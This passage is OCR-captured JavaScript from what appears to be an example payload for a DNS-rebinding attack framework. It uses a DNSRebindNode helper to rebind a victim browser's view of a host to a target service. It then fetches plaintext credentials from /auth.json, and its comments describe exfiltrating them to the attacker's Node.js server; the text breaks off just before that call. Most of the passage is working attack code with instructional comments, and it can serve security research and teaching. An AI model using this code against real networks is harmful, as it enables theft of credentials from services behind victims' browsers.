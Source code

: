 ```
        //         "Origin": "", // unset the origin header
        //         "Pragma": "no-cache",
        //         "Cache-Control": "no-cache"
        //     `}`,
        //     cache: "no-cache"
        // `}`
        const getOptions = DNSRebindNode.fetchOptions()

        try `{`
            // In this example, we'll pretend we are attacking some service with
            // an /auth.json file with username/password sitting in plaintext.
            // Before we swipe those creds, we need to first perform the rebind
            // attack. Most likely, our webserver will cache the DNS results
            // for this page's host. DNSRebindNode.rebind(...) recursively
            // re-attempts to rebind the host with a new, target IP address.
            // This can take over a minute, and if it is unsuccessful the
            // promise is rejected.
            const opts = `{`
                // these options get passed to the DNS rebind fetch request
                fetchOptions: getOptions,
                // by default, DNSRebindNode.rebind() is considered successful
                // if it receives an HTTP 200 OK response from the target service.
                // However, you can define any kind of "rebind success" scenario
                // yourself with the successPredicate(...) function. This
                // function receives a fetch result as a parameter and the return
                // value determines if the rebind was successful (i.e. you are
                // communicating with the target server). Here we check to see
                // if the fetchResult was sent by our example vulnerable server. 
                successPredicate: (fetchResult) =&gt; `{`
                    return fetchResult.headers.get('Server') == 'Example Vulnerable Server v1.0'
                `}`
            `}`
            // await the rebind. Can take up to over a minute depending on the 
            // victim's DNS cache settings or if there is no host listening on
            // the other side.
            await DNSRebindNode.rebind(`http://$`{`location.host`}`/auth.json`, opts)
        `}` catch (err) `{`
            // whoops, the rebind failed. Either the browser's DNS cache was
            // never cleared, or more likely, this service isn't running on the
            // target host. Oh well... Bubble up the rejection and have our
            // attack()'s rejection handler deal w/ it.
            return Promise.reject(err)
        `}`

        try `{`
            // alrighty, now that we've rebound the host and are communicating
            // with the target service, let's grab the credentials
            const creds = await fetch(`http://$`{`location.host`}`/auth.json`)
                                .then(res =&gt; res.json())

             // `{`
             //     "username": "crashOverride",
             //     "password": "hacktheplanet!",
             // `}`
            // console.log(creds)

            // great, now let's exfiltrate those creds to the Node.js server
            // running this whole shebang. That's the last thing we care about,
            // so we will just return this promise as the result of attack()
            // and let its handler's deal with it.
            //
            // NOTE: the second argument to exfiltrate(...) must be JSON
            // serializable.
```